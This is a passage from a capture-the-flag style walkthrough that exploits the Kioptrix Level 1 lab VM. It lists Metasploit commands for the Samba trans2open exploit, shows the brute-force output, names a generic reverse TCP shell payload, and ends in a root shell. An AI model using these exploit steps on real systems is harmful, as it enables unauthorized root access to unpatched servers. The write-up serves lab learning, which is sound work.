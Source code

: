 and as you see its enabled so we can now try to SSH with root and no password 

and it didn't work now we can try to brute-force it but I will not go to this path now instead I'm going to exploit the samba and mod_ssl vulnerabilities and that what we are going to do in the exploit phase next

### 3. Exploit
as we saw in the pervious phase there is to possible foothold for us and I'm going try to exploit them:

#### 1. samba trans2open:
let us start up the metasploit to exploit:
1. open metasploit: `msfconsole`
2. search for the auxiliray module: `search trans2open`
3. use the module: `use exploit/linux/samba/trans2open`
4. to see the options required: `show options`
5. the only required option is the target IP: `set RHOST 192.168.1.8`
6. run the module: `run` or `exploit`

``` bash
[*] 192.168.1.9:139 - Trying return address 0xbfff9bfc...
[*] 192.168.1.9:139 - Trying return address 0xbfff9afc...
[*] 192.168.1.9:139 - Trying return address 0xbfff99fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff98fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff97fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff96fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff95fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff94fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff93fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff92fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff91fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff90fc...
[*] 192.168.1.9:139 - Trying return address 0xbfff8ffc...
[*] 192.168.1.9:139 - Trying return address 0xbfff8efc...
^C[-] 192.168.1.9:139 - Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
msf6 exploit(linux/samba/trans2open) >

```

for some reason it keep looping

I have discovered the problem I didn't open the metasploit port in the kali firewall

I got another problem but this time the payload was not set properly so you have to use the following generic payload `payload/generic/shell_reverse_tcp` 

``` bash
msf6 exploit(linux/samba/trans2open) > sessions -i 6
[*] Starting interaction with 6...

ls
whoami
root
hostname
kioptrix.level1

```
